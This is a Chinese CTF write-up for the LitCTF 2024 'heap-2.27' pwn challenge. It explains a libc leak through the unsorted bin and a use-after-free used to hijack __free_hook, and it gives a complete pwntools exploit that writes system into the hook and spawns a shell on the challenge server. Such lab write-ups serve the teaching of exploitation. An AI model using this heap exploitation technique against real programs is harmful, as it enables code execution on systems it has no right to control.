 ```yaml
---
title: '[LitCTF 2024]heap-2.27'
date: 2024-11-13 0:20 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.27](https://www.nssctf.cn/problem/5615)

## 思路

通过`unsortbin`泄漏`libc`地址，根据地址找到`free_hook`函数所在。
`delete`函数中存在`uaf`，使得我们能够修改已经释放的堆块，因此，我们可以通过修改堆块的`fd`申请到任意内存位置的堆块，实现`free_hook`劫持。
需要了解unsortbin生成条件，free_hook劫持原理。

## EXP
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
#elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28014)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'size? ',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx? ',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx? ',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'content :',content)

create(0,0x10)
create(1,0x420)
create(2,0x10)
delete(1)
show(1)

free_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x1c48
log.info(hex(free_hook))
libc_base = free_hook-lib.sym['__free_hook']
sys_addr = libc_base + lib.sym['system']
#pause()

create(3,0x10)
delete(3)
edit(3,p64(free_hook))
create(4,0x10)
create(5,0x10)
#pause()
edit(5,p64(sys_addr))
edit(4,b'/bin/sh')
delete(4)
io.interactive()
```

## 总结

学到一个小技巧，在pwngdb中可以通过`p &__free_hook`配合`distance`确定位置。

